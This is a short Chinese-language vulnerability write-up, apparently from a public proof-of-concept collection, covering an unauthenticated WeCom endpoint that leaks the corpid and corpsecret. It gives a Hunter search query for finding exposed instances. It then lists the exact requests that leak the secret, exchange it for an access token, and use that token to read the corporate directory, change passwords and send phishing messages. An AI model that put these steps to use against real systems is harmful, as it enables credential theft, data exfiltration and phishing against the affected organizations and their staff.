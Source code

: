 # 企业微信接口未授权访问漏洞

# 一、漏洞简介
企业微信/cgi-bin/gateway/agentinfo接口未授权情况下可直接获取企业微信secret等敏感信息，可导致企业微信全量数据被获取，文件获取、使用企业微信轻应用对内利用发送钓鱼文件和链接等风险。

# 二、影响版本
+ 企业微信

# 三、资产测绘
+ hunter：`web.icon=="e1750fed09bcc7df102a0e593ffe2b69"`

![1691831077389-ecf0d266-1973-476d-bf80-28bd79c62d0b.png](./img/BQkOXYezQukpooIW/1691831077389-ecf0d266-1973-476d-bf80-28bd79c62d0b-918918.png)

+ 登录页面：

![1691831352586-b9e544cc-78cf-4feb-9071-83176a213f2b.png](./img/BQkOXYezQukpooIW/1691831352586-b9e544cc-78cf-4feb-9071-83176a213f2b-341488.png)



# 四、漏洞复现
1. 通过泄露信息接口可以获取`corpid`和`corpsecret`

```plain
https://<企业微信域名>/cgi-bin/gateway/agentinfo
```

![1691831388927-6404a99b-4034-461e-a122-4b378f76f340.png](./img/BQkOXYezQukpooIW/1691831388927-6404a99b-4034-461e-a122-4b378f76f340-481930.png)

2. 使用`corpsecret`和`corpid`获得`token`，其中`corpid`为上图中`strcorpid`、`corpsecret`为上图中`Secret`

```plain
https://<企业微信域名>/cgi-bin/gettoken?corpid=ID&corpsecret=SECRET
```

![1691831554361-cc7d1845-d373-4ee1-8c7f-5766106c7504.png](./img/BQkOXYezQukpooIW/1691831554361-cc7d1845-d373-4ee1-8c7f-5766106c7504-710668.png)

3. 使用token访问诸如企业通讯录信息，修改用户密码，发送消息，云盘等接口

    具体利用查看[企业微信开发者中心文档](https://developer.work.weixin.qq.com/document/path/90664)

![1691832111634-97ade7db-7f46-4771-ba7b-0b02cd26253c.png](./img/BQkOXYezQukpooIW/1691832111634-97ade7db-7f46-4771-ba7b-0b02cd26253c-905023.png)



> 更新: 2024-02-29 23:58:31  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gb52tl24nioiceab>